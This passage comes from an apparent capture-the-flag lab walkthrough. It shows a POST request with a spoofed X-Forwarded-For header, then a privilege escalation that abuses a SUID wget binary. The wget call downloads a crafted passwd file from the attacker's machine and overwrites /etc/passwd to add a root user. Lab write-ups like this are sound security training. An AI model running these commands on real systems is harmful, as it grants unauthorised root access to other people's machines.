 It expects a POST request so let's try that.

```shell
curl -v -X POST -H "X-Forwarded-For: localhost" http://192.168.214.134/restart
```

![image](https://github.com/1Gould/Proving-Grounds/assets/7574362/7a1b0104-7f40-4f97-8c95-8d0437c629dc)


## Priv Esc

Lets see what tools we have available and try to upgrade our shell. I like to check the location and permissions of some common ones.

```shell
ls -al $(which python)
ls -al $(which wget)
ls -al $(which nc)
ls -al $(which curl)
```

Interestingly, wget has its SUID bit set. Lets confirm this again with the usual SUID search command.

```shell
find / -perm -u=s -type f 2>/dev/null
```

This will allow us to overwrite files, lets overwrite **/etc/passwd**.

Lets copy the file to our local machine and add a user to it with root privileges, then use wget to retrieve the file and overwrite.

```shell
openssl passwd -1 -salt test test
echo 'test:$1$test$pi/xDtU5WFVRqYS6BMU8X/:0:0:root:/root:/bin/bash' >> passwd

# On Victim
wget http://192.168.45.215:8000/passwd -O /etc/passwd
```

![image](https://github.com/1Gould/Proving-Grounds/assets/7574362/0583dcac-c0a6-46ff-b8a8-57bba33213a1)
